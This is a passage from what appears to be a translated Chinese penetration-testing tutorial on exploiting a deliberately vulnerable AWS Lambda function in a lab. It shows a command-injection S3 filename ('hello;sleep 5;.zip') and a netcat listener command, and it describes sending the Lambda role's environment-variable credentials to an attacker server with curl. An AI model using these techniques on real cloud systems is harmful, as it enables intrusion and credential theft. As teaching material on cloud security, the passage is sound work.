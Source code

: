 看起来好多了，不是吗？我们正在查看一个 JSON 策略文档，指定了什么可以调用这个 Lambda 函数，我们可以看到`"Action"`设置为`"lambda:InvokeFunction"`。接下来，我们可以看到`"Principal"`设置为 AWS 服务 S3。这听起来正确，因为我们知道该函数正在处理 S3 对象。在`"Resource"`下，我们看到了 Lambda 函数的 ARN，正如预期的那样。在`"Condition"`下，我们看到`"AWS:SourceAccount"`必须是`000000000000`，这是我们正在使用的账户 ID，所以很好。在`"Condition"`下还有`"ArnLike"`，显示了一个 S3 存储桶的 ARN。我们没有所需的 S3 权限去确认这些信息，但我们可以合理地假设某种 S3 事件已经设置好，当发生某些事情时会调用这个函数（我们知道这是真的，因为我们之前设置过）。

另一个重要的提示可以在`"Sid"`键中找到，我们可以看到值为`"000000000000_event_permissions_for_LambdaTriggerOnS3Upload_from_bucket-for-lambda-pentesting_for_Vul"`，这显示了`"LambdaTriggerOnS3Upload"`。现在我们可以做出一个合理的猜测，即当文件上传到 S3 存储桶`"bucket-for-lambda-pentesting"`时，将调用这个 Lambda 函数。如果你还记得我们设置这些资源时，`"LambdaTriggerOnS3Upload"`就是我们之前添加到 S3 存储桶的事件触发器的名称，所以在这种情况下，冗长的命名方案帮助了我们作为攻击者。更好的是，我们知道我们的受损用户被授予了`"s3:PutObject"`权限！

现在我们已经拼出了这个谜题的所有部分。我们知道 Lambda 函数运行一个带有变量（`file_download_path`）的 shell 命令，我们知道该变量由另一个变量（`object_key`）组成，我们知道该变量被设置为值`record['s3']['object']['key']`。我们还知道，每当文件上传到`"bucket-for-lambda-pentesting"` S3 存储桶时，就会调用这个 Lambda 函数，而且我们有必要的权限将文件上传到该存储桶。鉴于这一切，这意味着我们可以上传一个我们选择的文件，最终将其传递到一个 shell 命令中，这正是我们想要的，如果我们试图在系统上执行代码！

但是，等等；在运行 Lambda 函数的服务器上执行任意代码有什么好处呢？它是一个只读文件系统，而且我们已经有了源代码。更多的凭证，这就是好处！如果你还记得之前，我们需要创建一个 IAM 角色，附加到我们创建的 Lambda 函数上，然后允许我们的函数与 AWS API 进行身份验证。当 Lambda 函数运行时，它会假定附加到它的 IAM 角色，并获得一组临时凭证（记住，这是访问密钥 ID、秘密访问密钥和会话令牌）。Lambda 函数与 EC2 实例有些不同，这意味着没有`http://169.254.169.254`上的元数据服务，这意味着我们无法通过那里检索这些临时凭证。Lambda 的做法不同；它将凭证存储在环境变量中，所以一旦我们能在服务器上执行代码，我们就可以窃取这些凭证，然后我们将获得附加到 Lambda 函数的角色的所有权限。

在这种情况下，我们知道 LambdaRoleForVulnerableFunction IAM 角色具有完全的 S3 访问权限，这比我们微不足道的`PutObject`访问权限要多得多，它还具有一些 CloudWatch 日志权限。我们目前无法访问 CloudWatch 中的日志，所以我们需要将凭证窃取到我们控制的服务器上。否则，我们将无法读取这些值。

现在，让我们开始我们的有效载荷。有时，如果您将整个 Lambda 函数复制到自己的 AWS 帐户中，可能会有所帮助，这样您就可以使用有效载荷对其进行轰炸，直到找到有效的有效载荷，但我们将首先手动尝试。我们知道我们基本上控制`object_key`变量，最终将其放入 shell 命令中。因此，如果我们传入一个无害的值`"hello.zip"`，我们将看到以下内容：

```
Line 13: object_key is assigned the value of "hello.zip"

Line 14: object_key is URL decoded by urllib.parse.unquote_plus (Note: the reason this line is in the code is because the file name comes in with special characters URL encoded, so those need to be decoded to work with the S3 object directly)

Line 25: file_download_path is assigned the value of f'/tmp/{object_key.split("/")[-1]}', which ultimately resolves to "/tmp/hello.zip"

Lines 29-30: A shell command is run with the input f'zipinfo {file_download_path} | grep ^- | wc -l', which resolves to "zipinfo /tmp/hello.zip | grep ^- | wc -l".
```

似乎只有一个限制需要我们担心，那就是代码检查文件是否在第 16 行具有`.zip`扩展名。有了所有这些信息，我们现在可以开始制作恶意有效载荷。

`zipinfo /tmp/hello.zip`命令中直接包含了我们提供的字符串，因此我们只需要打破这个命令以运行我们自己的任意命令。如果我们将`hello.zip`更改为`hello;sleep 5;.zip`，那么最终命令将变成`"zipinfo /tmp/hello;sleep 5;.zip | grep ^- | wc -l"`。我们插入了几个分号，这会导致 shell 解释器（bash）认为有多个要执行的命令。不是运行单个命令`zipinfo /tmp/hello.zip`，而是运行`"zipinfo /tmp/hello"`，这将失败，因为那不是一个存在的文件；然后，它将运行`"sleep 5"`并休眠五秒，然后它将运行`".zip"`，这不是一个真正的命令，因此将抛出错误。

就像这样，我们已经将一个命令(`sleep 5`)注入到 Lambda 服务器的 shell 中。现在，因为这是盲目的（也就是说，我们看不到任何命令的输出），我们需要窃取我们想要的重要信息。支持 Lambda 函数的操作系统默认安装了`"curl"`，因此这将是进行外部请求的一种简单方法，我们知道 AWS 凭证存储在环境变量中，因此我们只需要`curl`凭证到我们控制的服务器。

为此，我在自己的服务器上设置了 NetCat 监听器（示例中的 IP 地址为`1.1.1.1`），端口为`80`，命令如下：

```
nc -nlvp 80
```

